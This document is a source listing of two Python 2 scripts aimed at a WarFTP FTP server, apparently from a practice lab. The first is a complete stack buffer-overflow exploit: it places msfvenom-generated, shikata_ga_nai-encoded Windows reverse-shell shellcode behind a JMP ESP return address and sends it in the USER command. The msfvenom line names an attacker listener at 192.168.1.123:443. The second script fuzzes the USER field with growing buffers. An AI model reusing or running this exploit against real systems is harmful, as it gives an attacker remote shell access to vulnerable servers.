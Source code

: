 warftp-ftp.py
-------------

    #!/usr/bin/python

    import socket

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # 774699BF   FFE4             JMP ESP

    # bad characters \x00\x0a\x0d

    # msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.123 LPORT=443 -f c EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -a x86 --platform windows

    shellcode = ("\xd9\xed\xba\xda\x93\x0e\xa1\xd9\x74\x24\xf4\x5d\x29\xc9\xb1"
    "\x52\x31\x55\x17\x83\xc5\x04\x03\x8f\x80\xec\x54\xd3\x4f\x72"
    "\x96\x2b\x90\x13\x1e\xce\xa1\x13\x44\x9b\x92\xa3\x0e\xc9\x1e"
    "\x4f\x42\xf9\x95\x3d\x4b\x0e\x1d\x8b\xad\x21\x9e\xa0\x8e\x20"
    "\x1c\xbb\xc2\x82\x1d\x74\x17\xc3\x5a\x69\xda\x91\x33\xe5\x49"
    "\x05\x37\xb3\x51\xae\x0b\x55\xd2\x53\xdb\x54\xf3\xc2\x57\x0f"
    "\xd3\xe5\xb4\x3b\x5a\xfd\xd9\x06\x14\x76\x29\xfc\xa7\x5e\x63"
    "\xfd\x04\x9f\x4b\x0c\x54\xd8\x6c\xef\x23\x10\x8f\x92\x33\xe7"
    "\xed\x48\xb1\xf3\x56\x1a\x61\xdf\x67\xcf\xf4\x94\x64\xa4\x73"
    "\xf2\x68\x3b\x57\x89\x95\xb0\x56\x5d\x1c\x82\x7c\x79\x44\x50"
    "\x1c\xd8\x20\x37\x21\x3a\x8b\xe8\x87\x31\x26\xfc\xb5\x18\x2f"
    "\x31\xf4\xa2\xaf\x5d\x8f\xd1\x9d\xc2\x3b\x7d\xae\x8b\xe5\x7a"
    "\xd1\xa1\x52\x14\x2c\x4a\xa3\x3d\xeb\x1e\xf3\x55\xda\x1e\x98"
    "\xa5\xe3\xca\x0f\xf5\x4b\xa5\xef\xa5\x2b\x15\x98\xaf\xa3\x4a"
    "\xb8\xd0\x69\xe3\x53\x2b\xfa\xcc\x0c\x32\x81\xa4\x4e\x34\x74"
    "\x8e\xc6\xd2\x1c\xe0\x8e\x4d\x89\x99\x8a\x05\x28\x65\x01\x60"
    "\x6a\xed\xa6\x95\x25\x06\xc2\x85\xd2\xe6\x99\xf7\x75\xf8\x37"
    "\x9f\x1a\x6b\xdc\x5f\x54\x90\x4b\x08\x31\x66\x82\xdc\xaf\xd1"
    "\x3c\xc2\x2d\x87\x07\x46\xea\x74\x89\x47\x7f\xc0\xad\x57\xb9"
    "\xc9\xe9\x03\x15\x9c\xa7\xfd\xd3\x76\x06\x57\x8a\x25\xc0\x3f"
    "\x4b\x06\xd3\x39\x54\x43\xa5\xa5\xe5\x3a\xf0\xda\xca\xaa\xf4"
    "\xa3\x36\x4b\xfa\x7e\xf3\x6b\x19\xaa\x0e\x04\x84\x3f\xb3\x49"
    "\x37\xea\xf0\x77\xb4\x1e\x89\x83\xa4\x6b\x8c\xc8\x62\x80\xfc"
    "\x41\x07\xa6\x53\x61\x02")

    buffer = "A" * 485 + "\xbf\x99\x46\x77" + "\x90" * 20 + shellcode + "C" * (5500-485-4)

    try:
        print "\nSending evil buffer..."
        s.connect(("192.168.1.131", 21))
        s.recv(1024)
        s.send('USER ' + buffer + '\r\n')
        data=s.recv(1024)
        print "\nDone!."
    except:
        print "Could not connect to FTP!"


ftp-user-fuzz.py
----------------

    #!/usr/bin/python

    import socket

    buffer = ["A"]
    counter=100

    while len(buffer) < 30:
        buffer.append("A"*counter)
        counter=counter+200

    for string in buffer:
        print "Fuzzing USER with %s bytes" % len(string)
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect(("192.168.1.131", 21))
        s.recv(1024)
        s.send('USER ' + string + '\r\n')
        s.recv(1024)
        s.send('QUIT\r\n')
        s.close()